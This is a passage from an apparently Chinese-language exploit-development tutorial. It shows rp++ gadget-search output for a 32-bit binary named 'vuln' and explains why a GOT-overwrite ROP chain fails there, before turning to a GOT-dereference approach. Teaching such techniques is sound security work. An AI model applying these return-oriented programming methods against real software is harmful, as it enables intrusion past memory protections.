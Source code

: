 ```
0 found.

in LOAD
65 found.

A total of 65 gadgets found.
...
0x080484a3: popl %ebp ; ret ; (1 found)
0x080485cf: popl %ebp ; ret ; (1 found)
0x08048618: popl %ebp ; ret ; (1 found)
0x08048380: popl %ebx ; ret ; (1 found)
0x08048634: popl %ebx ; ret ; (1 found)
...
$
```

因此将偏移差`0xfffff530`压入栈中，并返回到`pop eax`指令，将偏移差复制给 EAX。但是不幸的是，在我们的二进制`vuln`中，我们不能找到`popl %eax; ret;`零件。因此 GOT 覆盖是不可能的。

栈布局：下面的图片描述了用于完成 GOT 覆盖的零件链。

![1](../img/2a4121899b2681e8a3b891d5d9928b18.png)

## 使用 ROP 的 GOT 解引用

零件 1：首先我们需要一个零件，它将偏移差加到`GOT[getuid]`，并且它的结果需要加载到寄存器中。所以让我们寻找一个`add`零件，它将结果复制到寄存器中。

```
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 4
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..

Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.

in LOAD
166 found.

A total of 166 gadgets found.
...
```